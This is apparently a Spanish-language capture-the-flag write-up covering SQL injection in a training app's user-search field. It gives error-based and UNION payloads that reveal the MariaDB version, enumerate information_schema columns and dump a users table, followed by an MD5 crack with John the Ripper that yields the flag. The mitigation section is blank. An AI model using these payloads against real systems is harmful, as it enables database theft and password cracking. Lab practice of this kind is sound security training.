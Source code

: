# Inyección SQL - Usuarios
### (owasp)

Misma vulnerabilidad que [la inyección SQL en la vista de imágenes](./sql_injection_images.md).

El ataque de **inyección SQL** consiste en la capacidad de realizar queries diréctamente a la base de datos del servidor mediante la introducción de queries SQL en parámetros de input **no sanitizado**.

## Ataque

En la url de http://<IP>/???, tenemos acceso a un input para buscar usuarios por id, por lo que suponemos que el input de usuario va a formar parte de una query a la base de datos.

Probamos si podemos tener acceso a una vulnerabilidad por mala validación de input; escribimos un `'` y enviamos.

```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '\'' at line 1
```

El servidor no valida la entrada, así que podemos intentar una injección.

Primero, obtenemos la versión de la base de datos del servidor con la siguiente query:

```sql
1 OR 1 GROUP BY CONCAT_WS(0x3a,VERSION(),FLOOR(RAND(0)*2)) HAVING MIN(0) OR 1-- -


Duplicate entry '5.5.64-MariaDB-1ubuntu0.14.04.1:1' for key 'group_key'
```
[Fuente: Andvanced SQL Injection Cheatsheet](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/blob/main/MySQL-Bypass-Error/README.md)


Tras invesigar esta versión, descubrimos que las versiones mayores de 5.02 de MySQL tienen una base de datos llamadas **INFORMATION_SCHEMA**, que contienen información sobre el resto de bases de datos guardadas en el servidor, lo que nos va a resultar útil en la exploración de la tabla users.

Exploranco [la documentación](https://dev.mysql.com/doc/refman/8.4/en/information-schema-columns-table.html), vemos que information_schema contiene una tabla **columns**, en donde se guardan los nombres de todas las columnas de todas las tablas presentes en la base de datos.

Desde el servidor se escapan los caracteres de comillas, por lo que tendemos que lanzar una query para obtener todas las columnas de todas las tablas.

Como desde el servidor únicamente se recuperan dos columnas para mostrar los parámetros en front, debemos hacer un **union** para concatenar dos columnas con la información que nos interesa.

```sql
1 or 1=1 union select concat_ws(0x2b,table_name,table_schema), column_name from information_schema.columns
```

Y de aquí obtenemos dos columnas interesantes de una tabla **users**.

```
ID: 1 or 1=1 union select concat_ws(0x2b,table_name,table_schema), column_name from information_schema.columns 
First name: users+Member_Sql_Injection
Surname : Commentaire

ID: 1 or 1=1 union select concat_ws(0x2b,table_name,table_schema), column_name from information_schema.columns 
First name: users+Member_Sql_Injection
Surname : countersign
```

Tras obtener los nombres de las columnas de la tabla `users`, sólo nos queda mirar los valores de las columnas sospechosas del usuario Flag.

```sql
420 or 1=1 union select Commentaire, countersign from users
```

Obtenemos lo siguiente:

```
ID: 420 or 1=1 union select Commentaire, countersign from users 
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28
```
Hacemos lo que nos pide con un john.

```bash
root@f4e2e2e5dc49:/# /john-jumbo/run/john --format=raw-md5 --wordlist=rockme.txt hashes
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=12
Note: Passwords longer than 18 [worst case UTF-8] to 55 [ASCII] rejected
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
Warning: Only 1 candidate buffered, minimum 24 needed for performance.
FortyTwo         (user)
1g 0:00:00:00 DONE (2025-06-15 15:21) 100.0g/s 100.0p/s 100.0c/s 100.0C/s FortyTwo
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
root@f4e2e2e5dc49:/# echo -n FortyTwo | sha256sum
9995cae900a927ab1500d317dfcc52c0ad8a521bea878a8e9fa381b41459b646  -
```

He aquí la flag.

## Mitigación



## Referencias

